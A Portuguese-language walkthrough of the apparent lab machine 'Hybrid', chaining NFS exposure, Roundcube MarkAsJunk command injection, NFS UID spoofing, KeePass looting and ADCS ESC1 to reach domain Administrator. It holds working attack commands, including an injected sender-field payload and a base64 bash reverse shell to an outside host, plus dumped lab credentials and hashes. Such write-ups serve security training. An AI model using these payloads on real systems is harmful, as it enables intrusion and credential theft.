Chain com dois hosts: servidor Linux de e-mail (mail01) e Domain Controller Windows (dc01). NFS exposure → backup com credenciais → Roundcube RCE → NFS UID spoofing → KeePass → ADCS ESC1 via keytab da conta de máquina → Administrator.
Escopo com dois IPs. Iniciamos pelo primeiro host, identificado como Domain Controller do domínio hybrid.vl.
bash$ sudo nmap --open -Pn -p53,88,135,139,389,445,464,636,3268,3269,3389,5985,9389 \
-sVC --min-rate 600 10.10.243.181
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos
389/tcp open ldap Microsoft Windows Active Directory LDAP
(Domain: hybrid.vl0.)
445/tcp open microsoft-ds?
3389/tcp open ms-wbt-server Microsoft Terminal Services
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (WinRM)
| rdp-ntlm-info:
| Target_Name: HYBRID
| DNS_Domain_Name: hybrid.vl
| DNS_Computer_Name: dc01.hybrid.vl
|_ Product_Version: 10.0.20348
bash$ echo '10.10.243.181 hybrid.vl dc01.hybrid.vl' | sudo tee -a /etc/hosts
Segundo host com perfil completamente diferente — Linux com serviços de e-mail e NFS exposto.
bash$ sudo nmap --open -sVC -Pn -p22,25,80,110,111,143,587,993,995,2049 \
--min-rate 1280 10.10.243.182
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu
25/tcp open smtp Postfix smtpd
80/tcp open http nginx 1.18.0 (Ubuntu)
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
143/tcp open imap Dovecot imapd (Ubuntu)
2049/tcp open nfs 3-4 (RPC #100003) ← NFS exposto!
Service Info: Host: mail01.hybrid.vl; OS: Linux
bash$ echo '10.10.243.182 mail01.hybrid.vl' | sudo tee -a /etc/hosts

Com o NFS rodando na porta 2049, verificamos os diretórios compartilhados:
bash$ showmount -e 10.10.243.182
Export list for 10.10.243.182:
/opt/share *
Montamos o compartilhamento e encontramos um arquivo de backup:
bash$ sudo mount -t nfs -o nfsvers=3 10.10.243.182:/opt/share nfs/
$ tar -xvf backup.tar.gz
etc/passwd
etc/sssd/sssd.conf
etc/dovecot/dovecot-users
etc/postfix/main.cf
opt/certs/hybrid.vl/fullchain.pem
opt/certs/hybrid.vl/privkey.pem
admin@hybrid.vl : Duckling21
peter.turner@hybrid.vl : PeterIstToll!

Com as credenciais obtidas, acessamos o Roundcube Webmail. Durante a enumeração manual dos e-mails, identificamos a versão do plugin instalado na aplicação.

O plugin MarkAsJunk é vulnerável a injeção de comandos via o campo de remetente do e-mail. Referência: SSD Advisory
Alteramos o remetente via Settings → Identities para injetar um comando ping:
payloadadmin&ping${IFS}-c2${IFS}10.8.3.97&@hybrid.vl

O plugin trata e-mails como SPAM — é necessário clicar no botão Junk para acionar a execução do comando.

Com o RCE confirmado, encodamos o payload em base64 para evitar problemas com caracteres especiais:
bash$ echo -n 'bash -i >& /dev/tcp/10.8.3.97/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjMuOTcvOTAwMSAwPiYx
payloadadmin&echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjMuOTcvOTAwMSAwPiYx|base64${IFS}-d|${IFS}bash&@hybrid.vl

Com acesso ao servidor, verificamos que não temos permissão para ler o diretório do usuário peter.turner. Identificamos o UID do usuário:
bash$ id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl)
O NFS controla acesso por UID, não por autenticação. Criando um usuário local no nosso host com o mesmo UID (902601108), assumimos a identidade do usuário ao acessar arquivos no compartilhamento.
Copiamos o bash para o compartilhamento NFS, criamos o usuário com o UID correto em nosso host e configuramos o SUID:
bash — no alvo$ cp /usr/bin/bash .
bash — no host de ataque$ sudo useradd user -u 902601108
$ sudo passwd user
$ cp bash /tmp/
$ rm bash
$ cp /tmp/bash .
$ chmod +xs bash


Acesso ao usuário obtido. Adicionamos nossa chave pública no ~/.ssh/authorized_keys para uma sessão SSH estável.
Obtida no diretório home de peter.turner

No diretório do usuário encontramos um arquivo passwords.kdbx. Transferimos para nosso host e abrimos com kpcli, testando a credencial encontrada anteriormente:
bash$ kpcli
kpcli:/> open ./passwords.kdbx
Provide the master password: ************************* (Duckling21)
kpcli:/> ls
=== Groups ===
eMail/
Internet/
hybrid.vl/
kpcli:/> cd hybrid.vl/
kpcli:/hybrid.vl> show -f 0
Title: domain
Uname: peter.turner
Pass: b0cwR+G4Dzl_rw
peter.turner : b0cwR+G4Dzl_rw

Executamos sudo -l com a senha obtida e conseguimos acesso root no mail01. Com isso, obtemos a segunda evidência.
Obtida via sudo su com credenciais do KeePass

As credenciais do KeePass também são válidas no domínio — testamos no DC01:
bash$ netexec smb 10.10.243.181 -u peter.turner -p 'b0cwR+G4Dzl_rw'
SMB 10.10.243.181 445 DC01 [+] hybrid.vl\peter.turner:b0cwR+G4Dzl_rw

Sem caminho direto para Domain Admin via BloodHound, enumeramos o ADCS:
bash$ netexec ldap 10.10.243.181 -u peter.turner -p b0cwR+G4Dzl_rw -M adcs
ADCS 10.10.243.181 389 DC01 Found PKI Enrollment Server: dc01.hybrid.vl
ADCS 10.10.243.181 389 DC01 Found CN: hybrid-DC01-CA
bash$ certipy find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' \
-dc-ip 10.10.243.181 -vulnerable -stdout
Certificate Templates
0
Template Name : HybridComputers
Client Auth : True
Enrollee Supplies Subject : True ← ESC1!
Enrollment Rights: HYBRID.VL\Domain Computers
[!] Vulnerabilities
ESC1: 'HYBRID.VL\\Domain Computers' can enroll, enrollee supplies subject
and template allows client authentication

O template HybridComputers permite que Domain Computers se inscrevam e forneçam um Subject (UPN) arbitrário. Precisamos de uma conta de máquina para explorar isso.
Como root no mail01, acessamos o arquivo /etc/krb5.keytab que contém as credenciais Kerberos da conta de máquina:
bash# python3 keytabextract.py /etc/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[+] Keytab File successfully imported.
REALM : HYBRID.VL
SERVICE : MAIL01$/
NTLM HASH : 0f916c5246fdbc7ba95dcef4126d57bd
AES-256 : eac6b4f4639b96af4f6fc2368570cde71e9841f2b3e3402350d3b6272e436d6e
Referência: sosdave/KeyTabExtract

Com o hash NTLM da conta de máquina MAIL01$, solicitamos um certificado para o usuário administrator:
bash$ certipy req -u 'MAIL01$' -hashes '0f916c5246fdbc7ba95dcef4126d57bd' \
-target '10.10.243.181' -template 'HybridComputers' \
-ca hybrid-DC01-CA -upn administrator -key-size 4096
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Saved certificate and private key to 'administrator.pfx'

Usamos o certificado gerado para obter o TGT e extrair o hash NTLM via PKINIT:
bash$ certipy auth -pfx 'administrator.pfx' -username 'administrator' \
-domain 'hybrid.vl' -dc-ip 10.10.243.181
[*] Using principal: administrator@hybrid.vl
[*] Got TGT
[*] Got hash for 'administrator@hybrid.vl':
aad3b435b51404eeaad3b435b51404ee:60701e8543c9f6db1a2af3217386d3dc

bash$ evil-winrm -i 10.10.243.181 -u administrator \
-H 60701e8543c9f6db1a2af3217386d3dc
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
hybrid\administrator

Obtida em C:\Users\Administrator\Desktop\root.txt